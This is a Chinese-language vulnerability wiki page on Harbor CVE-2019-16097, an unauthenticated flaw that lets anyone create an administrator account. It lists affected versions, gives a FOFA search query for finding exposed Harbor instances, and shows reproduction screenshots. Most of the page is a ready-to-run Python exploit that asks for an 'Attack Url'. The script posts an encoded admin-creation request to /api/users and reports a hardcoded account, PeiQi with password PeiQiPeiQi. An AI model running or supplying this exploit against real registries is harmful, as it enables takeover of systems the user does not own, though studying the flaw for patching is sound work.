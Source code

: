 # Harbor 未授权创建管理员漏洞 CVE-2019-16097

## 漏洞描述

近日，镜像仓库Harbor爆出任意管理员注册漏洞，攻击者在请求中构造特定字符串，在未授权的情况下可以直接创建管理员账号，从而接管Harbor镜像仓库。我们得到消息，第一时间对该漏洞进了验证，官方已发布公告说明，最新的1.7.6和1.8.3已修复此漏洞，请使用到的用户尽快升级至安全版本。

Harbor是一个用于存储和分发Docker镜像的企业级Registry服务器。Harbor 1.7.0版本至1.8.2版本中的core/api/user.go文件存在安全漏洞。攻击者通过在请求中添加关键参数，即可利用该漏洞创建管理员账户，从而接管Harbor镜像仓库。

## 漏洞影响

> [!NOTE]
>
> Harbor 1.7.0版本至1.8.2版本

## FOFA

> [!NOTE]
>
> title="Harbor"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/har-1.png)

向**/api/user** 接口发送创建用户的请求, 状态码返回201即创建成功

![](http://wikioss.peiqi.tech/vuln/har-3.png)

使用创建的账户成功登录后台

![](http://wikioss.peiqi.tech/vuln/har-2.png)

## 漏洞利用POC

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: Harbor 1.7.0至1.8.2                                       \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/api/users"
    data = base64.b64decode("eyJ1c2VybmFtZSI6IlBlaVFpIiwiZW1haWwiOiJQZWlRaUBxcS5jb20iLCJyZWFsbmFtZSI6IlBlaVFpIiwicGFzc3dvcmQiOiJQZWlRaVBlaVFpIiwiY29tbWVudCI6IjEiLCJoYXNfYWRtaW5fcm9sZSI6dHJ1ZX0=")
    headers = {"Content-Type": "application/json", "Accept": "application/json"}
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/api/users..... \033[0m".format(target_url))
        if response.status_code == 201:
            print("\033[32m[o] 目标 {} 存在漏洞\033[0m".format(target_url))
            print("\033[32m[o] 成功创建账号:PeiQi 密码:PeiQiPeiQi\033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/har-4.png)